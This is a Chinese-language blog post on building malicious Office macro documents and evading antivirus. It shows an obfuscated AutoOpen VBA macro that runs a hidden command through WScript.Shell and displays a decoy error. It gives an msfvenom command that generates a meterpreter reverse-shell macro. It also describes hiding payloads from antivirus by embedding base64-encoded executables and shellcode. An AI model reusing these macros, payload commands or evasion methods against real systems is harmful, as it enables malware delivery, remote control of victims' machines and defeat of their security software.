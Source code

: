 ```yaml
---
layout: post
title:  "恶意宏文档与免杀"
date:   2019-12-3 12:48:05 +0800
categories: apt
---
```


office宏，译自英文单词Macro。宏是微软公司为其OFFICE软件包设计的一个特殊功能，软件设计者为了让人们在使用软件进行工作时，避免一再地重复相同的动作而设计出来的一种工具，它利用简单的语法，把常用的动作写成宏，当在工作时，就可以直接利用事先编好的宏自动运行，去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。

# 生成执行cmd的宏

项目地址 https://github.com/metac0rtex/Office-Macro-Generator

生成示例:

```vb
Public Sub AutoOpen()
  Dim cmd As String
  BxJnb = ChrW(99) & ChrW(115) & ChrW(99) & ChrW(114) & ChrW(105) & ChrW(112) & ChrW(116) & ChrW(32) & ChrW(68) & ChrW(58)
  SAnJV = ChrW(92) & ChrW(116) & ChrW(101) & ChrW(115) & ChrW(116) & ChrW(49) & ChrW(49) & ChrW(49) & ChrW(46) & ChrW(118)
  JKkJK = ChrW(98) & ChrW(115)
  cmd = BxJnb & SAnJV & JKkJK
  Dim Obj as Object
  Set Obj = CreateObject("WScript.Shell")
  Obj.Run cmd, 0
  MsgBox ("Required rescource could not be allocated")
End Sub
  cmd = cmd & "cscript D:\test111.vbs"
```

主要就是使用ChrW()拼接成cmd，然后通过调用WScript.Shell执行命令

类似项目：

https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator 

https://github.com/infosecn1nja/MaliciousMacroMSBuild

# 使用msf生成宏

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -f vba -o try.vba
```

使用msf生成vba代码，放入word中即可。

msf生成的宏使用shellcode动态加载技术，运行时在内存中注入shellcode并执行

# 免杀

灵活运用base64就可以达到免杀的效果，此处只讲解原理并提供思路。

## cmd宏的免杀

执行cmd本身不会引起杀软的注意，但是当进行敏感操作时杀软就会警告（如调用powershell、cscript、wscript、bitsadmin、certutil等），因此执行命令时应该避开调用这些程序。

以火绒为例:

![火绒](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/20191203141834.png)

思路：

将免杀的exe进行base64编码写入代码中，当宏执行时释放exe并运行。

## 基于动态加载shellcode的宏的免杀

最开始尝试直接使用veil混淆过的shellcode进行免杀，但是并没有达到效果。

https://payloads.online/archivers/2019-05-16/1 倾旋在博客中提过将shellcode通过自增等操作进行混淆。

根据这个思路，我们可以将shellcode进行base64编码，运行的时候再将编码后的shellcode还原。

## 思路拓展

base64编码本质上是一种加密过程，将payload视为明文，通过编码的得到密文，在程序运行时再讲密文还原为明文，以此来绕过杀软的静态检测。如果可以自己实现一种加密方式，就可以达到很好的免杀效果。